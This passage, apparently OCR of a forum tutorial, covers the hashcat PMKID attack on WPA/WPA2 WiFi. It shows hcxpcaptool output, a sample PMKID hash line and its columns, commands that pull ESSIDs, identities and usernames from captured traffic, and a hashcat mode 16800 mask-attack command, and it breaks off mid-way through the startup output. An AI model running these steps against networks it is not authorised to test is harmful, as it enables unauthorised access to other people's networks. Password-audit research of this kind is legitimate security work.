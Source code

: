 > association responses........: 5  
> authentications (OPEN SYSTEM): 13  
> authentications (BROADCOM)...: 1  
> EAPOL packets................: 14  
> EAPOL PMKIDs.................: 1  
>   
> 1 PMKID(s) written to test.16800

  
The content of the written file will look like this:  
  

> Quote:2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a

  
The columns are the following (all hex encoded):  

-   PMKID  
    
-   MAC AP  
    
-   MAC Station  
    
-   ESSID  
    

  
Note: While not required it is recommended to use options -E -I and -U with hcxpcaptool. We can use these files to feed hashcat. They typically produce good results.  

-   -E retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)  
    
-   -I retrieve identities from WiFi-traffic  
    
-   -U retrieve usernames from WiFi-traffic  
    

  

Code:

`$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng`

  
3. Run hashcat to crack it.  
  
Basically we can attack this hash as any other hash type. The hash-mode that we need to use is 16800.  
  

Code:

`$ ./hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'`

  
Output:  
  

> Quote:hashcat (v4.2.0) starting...  
>   
> OpenCL Platform #1: NVIDIA Corporation  
> ======================================  
> * Device #1: GeForce GTX 1080, 2028/8112 MB allocatable, 20MCU  
> * Device #2: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU  
> * Device #3: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU  
> * Device #4: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU  
>   
> Hashes: 1 digests; 1 unique digests, 1 unique salts  
> Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates  
>   
> Applicable optimizers:  
> * Zero-Byte  
> * Single-Hash  
> * Single-Salt  
> * Brute-Force  
> * Slow-Hash-SIMD-LOOP  
>   